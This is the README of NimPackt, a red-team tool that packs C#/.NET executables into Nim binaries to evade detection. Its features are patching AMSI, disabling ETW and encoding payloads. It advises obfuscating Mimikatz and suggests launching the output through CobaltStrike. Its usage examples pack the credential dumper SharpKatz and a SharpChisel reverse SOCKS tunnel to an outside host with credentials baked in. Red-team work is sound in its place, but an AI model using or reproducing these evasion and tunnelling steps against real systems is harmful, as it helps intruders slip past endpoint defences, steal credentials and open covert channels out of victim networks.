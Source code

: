 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables

## Description

NimPackt is a Nim-based packer for C# / .NET executables. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect or reverse engineer. Currently, it has the following features.

- Patching the Anti-Malware Scan Interface (AMSI)
- Disabling Event Tracing for Windows (ETW)
- Payload encoding to prevent static analysis
- ~~Obfuscating static strings used in the binary~~ (temporarily disabled, does not support embedded payload string)
- Cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. You should replace strings for, as well as obfuscate, sensitive binaries (like Mimikatz) to avoid fingerprinting.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to remove userland hooks (until Project5 is supported) or even launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages. Then you're good to go!

```
sudo apt install -y python3 mingw-w64 nim
nimble install winim strenc base64
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility, then install the required packages as follows.

```
nimble install winim strenc base64
```

## Usage

```
usage: NimPackt.py [-h] -i INPUTFILE [-a ARGUMENTS] [-32] [-H] [-na] [-ne] [-v] [-V]

required arguments:
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable to wrap

optional arguments:
  -a ARGUMENTS, --arguments ARGUMENTS
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (defaults to empty string)
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) by compiling it in GUI mode
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```
# (Windows) Pack SharpKatz to accept commands at runtime, patch AMSI and disable ETW while printing verbose messages on runtime 
# Note that applications may crash silently if you pass the wrong arguments in PASSTHRU mode (depending on the application)
python3 .\NimPackt.py -v -i .\SharpBins\SharpKatz-x64.exe -a "PASSTHRU"

# (Linux) Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -H -i /tmp/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'
```

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed bytes (the executed assembly). This probably relates to C# compiling options, need to investigate this further.
- Static XOR encryption of strings using `nim-strenc` does not support the huge payload string and crashes during compilation. Need to research a solution (chunking?) or alternatives.

## Wishlist

- Replace encoding with encryption
- Provide option to deploy `Project5` to unhook API calls before execution
- Provide option to pack as dll library